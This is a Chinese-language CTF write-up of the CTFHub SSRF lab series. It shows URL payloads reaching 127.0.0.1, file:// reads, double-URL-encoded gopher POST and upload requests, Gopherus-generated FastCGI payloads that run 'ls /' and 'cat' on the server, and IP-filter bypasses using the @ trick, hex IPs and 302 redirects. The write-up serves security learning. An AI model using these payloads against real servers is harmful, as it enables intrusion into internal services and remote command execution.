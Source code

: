 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: CTFHub-SSRF-writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-24
# 一个页面只能有一个分类
category: CTF
# 一个页面可以有多个标签
tag:
  - writeup

comment: false
---
```


## 内网访问
  直接构造访问请求,获取flag
  ```url
  /?url=127.0.0.1/flag.php
  ```
## 伪协议读取文件
  根据题目提示使用file://协议，尝试一般web目录/var/www/html/  
  ![file](/assets/img/ctf/file.png)
## 端口扫描
  提示端口范围8000到9000
  ```url
  /?url=127.0.0.1:8000
  ```
  使用burpsuite对端口进行爆破，即可得到端口，访问获取flag
## POST请求
  访问/?url=127.0.0.1/flag.ph,返回页面  
  ![post1](/assets/img/ctf/post1.png)  
  包含一个form和隐藏的key，推测需要在form中提交key，F12添加提交按钮  
  ```
  <input type="submit" name="sbumit">
  ```   
  ![post3](/assets/img/ctf/post3.png)  
  在页面上提交key，页面返回"Just View From 127.0.0.1"  
  ![post5](/assets/img/ctf/post5.png)  
  可见需要通过SSRF提交请求，构造POST请求
  ```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  因为通过SSRF，需要进行两次请求，所以对请求数据进行2次url编码，注意使用CRLF，第一次url编码后需要将%0A替换为%0D%0A,最后得到请求数据  
  ```
  POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253D99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  使用gopher发送请求，gopher协议是SSRF中常用的一个协议：
  ```url
  gopher://IP:port/_{TCP/IP数据流}
  ```
  得到flag   
  ![post4](/assets/img/ctf/post4.png)
## 文件上传
使用file协议查看flag.php，代码检查了上传ip和文件大小，所以需要从127.0.0.1上传非空文件
  ```php html
  <?php
  error_reporting(0);
  if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
      echo "Just View From 127.0.0.1";
      return;
  }
  if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
      echo getenv("CTFHUB");
      exit;
  }
  ?>
  Upload Webshell
  <form action="/flag.php" method="post" enctype="multipart/form-data">
      <input type="file" name="file">
  </form>
  ```

访问`/?url=127.0.0.1/flag.php`，返回一个文件上传form，根据题意需要提交文件获取flag，F12添加提交按钮  
![upload1](/assets/img/ctf/upload1.png)  
提交一个随意非空文件，抓取上传数据包，修改host为127.0.0.1:80  
![upload2](/assets/img/ctf/upload2.png)  
对上传数据进行二次url编码，注意第一次编码后将%0A替换为%0D%0A，得到编码后的请求数据  

```
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520280%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64)%2520AppleWebKit%252F537.36%2520(KHTML%252C%2520like%2520Gecko)%2520Chrome%252F92.0.4515.159%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250ACookie%253A%2520UM_distinctid%253D17b2f471020f2e-06f3628e7e7e6e-4343363-1fa400-17b2f47102110f5%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522123.txt%2522%250D%250AContent-Type%253A%2520text%252Fplain%250D%250A%250D%250A123%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522123%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa--
```
使用gopher发送请求，得到flag  
![upload3](/assets/img/ctf/upload3.png)
## FastCGI协议
[fastcgi相关介绍](https://blog.csdn.net/mysteryflower/article/details/94386461)  
[gopher payload工具](https://github.com/tarunkant/Gopherus)  
使用gopher工具生成payload，运行命令`ls /`  
![fastcgi1](/assets/img/ctf/fastcgi1.png)  
发送请求，获取`/`下目录情况,发现flag文件  
![fastcgi2](/assets/img/ctf/fastcgi2.png)    
使用gopher工具生成payload，运行命令`cat /flag_14e0ba551d369f7992793e0b62395dc5`  
![fastcgi3](/assets/img/ctf/fastcgi3.png)  
发送请求，获得flag  
![fastcgi4](/assets/img/ctf/fastcgi4.png)
## URL Bypasss
  访问地址提示"start with `http://notfound.ctfhub.com`", 所以需要以`http://notfound.ctfhub.com`开头，构造访问url如下获取flag
  ```url
  /?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
  ```
## 数字IP Bypass
题目提示ban掉了127以及172.不能使用点分十进制的IP，但是又要访问127.0.0.1
  - 方法一：  
  使用localhost代替127.0.0.1,构造请求url如下，获取flag
  ```url
  /?url=http://localhost/flag.php
  ```
  - 方法二:  
  将127.0.0.1转换为16进制0x7F000001,构造请求url如下，获取flag
  ```url
  /?url=http://0x7F000001/flag.php
  ```  

## 302跳转 Bypass
题目提示过滤了127.0.0.1，使用[数字IP Bypass](#数字ip-bypass)可以绕过，但是题意是使用302跳转绕过，可以生成短链接302跳转获得flag,  [短链接生成网站](https://my5353.com/)  
![短链接访问](/assets/img/ctf/302.png)
